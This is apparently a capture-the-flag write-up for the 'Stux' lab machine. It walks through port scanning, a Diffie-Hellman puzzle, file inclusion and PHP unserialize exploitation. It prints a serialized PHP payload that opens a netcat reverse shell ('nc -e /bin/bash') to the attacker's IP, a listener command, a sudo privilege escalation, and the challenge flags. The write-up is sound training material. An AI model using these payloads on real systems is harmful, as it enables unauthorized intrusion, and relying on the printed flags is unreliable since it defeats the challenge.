# Stux CTF writeup

## Enumeration

Using `sudo nmap -Pn -p- -v -A 10.10.189.199` to find open ports, and which services reside at these ports.



The scan found an endpoint (`/StuxCTF/`) in the robots.txt folder. This page, however, gives us a 404 exception.


Heading back to the index of port 80 I inspect the element and find something about a secret directory.



This problem immediately made me think of a discrete logarithm problem. More spesifically Diffie Hellman.
p is a public prime, and g a public generator, and a and b are Alice's and Bob's respective private keys. g^c might be a third person's g^c mod p public key.

In order to create a shared secret key using Diffie Hellman, you simply combine all peoples public keys together with your own private key like this:

shared_secret = (a_public * b_public)^(c_private) mod p = (g^a_private mod p * g^b_private mod p)^(c_private) mod p = g^(a_private*b_private*c_private) mod p




Aaaand, that's our first flag!

3. What is the hidden directory?
    * 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055

By inspecting the source code of this website, we're graciously given a hint to head over to `/?file=`



Typing a random argument in the `/?file=` endpoint takes us to a page that says that the file doesn't exist.



By checking for a [lfi vulnerability](https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/) (reference the directory's `index.php` file), we seem to accidentaly have discovered a new code. This code is, at least, different from the modular arithmetic code we calculated above. Using our local web server we also found out that the website has a [rfi vulernability](https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/)



This seems an awful lot like hexadecimals, so i use an online converter to get the decoded string.

The decoded string seems to be obscured by something yet again. The double `==` at the start of this string makes it look like reversed base64.



We end up by getting the index.php file when reverting and decoding the base64 string.



This code may seem innocent at first (except for the inclusion of a lfi exploit), but the `unserialize` method in the last line is vulnerable for remote code execution if we're able to upload our own code to the function. [This article explains the exploit really well](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/), but the crux of this exploit is that if we `serialize` some php code on our local machine and make the website's `unserialize` method unserialize our php code, it execute it if certain conditions are met. 

The code you want to serialize should look like this:
```php
    <?php
        class file{
            public $file = 'file.php'; // Name of the file we are making on the remote server
            public $data = '<?php shell_exec("nc -e /bin/bash 10.9.81.67 7575"); ?>'; // Spawning a bash shell and sending it to our gateway
        }
        echo (serialize(new file)); //Serialize the "file" function
    ?>
```

By serializing the php code `php inject.php > inject.php` you get a text file with the serialized data `O:4:"file":2:{s:4:"file";s:10:"remote.php";s:4:"data";s:55:"<?php shell_exec("nc -e /bin/bash 10.9.81.67 7575"); ?>";}`

Upload this file to the website through the rfi vulnerability we found earlier



The file should then be saved as `file.php` in the directory.

Start up netcat `nc -lvnp 7575` and head over to the newly uploaded `file.php` to execute the file.


Connected as www-data!



We see a user named `grecia` when navigating to the home directory. 
Grecia's user.txt is located here!



1. user.txt
    * 0b6044b7807dd100b9e30f1bd09db53f

By running `sudo -l` we can see which (if any) commands we are able to run with escalated privileges. To my surprise all commands can be run as root without providing a password.



The www-data user is naturally not allowed to access the root folder, but we may still see the content of root.txt by running `sudo cat /root/root.txt`.

Rooted! :^)



2. root.txt
    * 0028454003b42601548df551b738976c

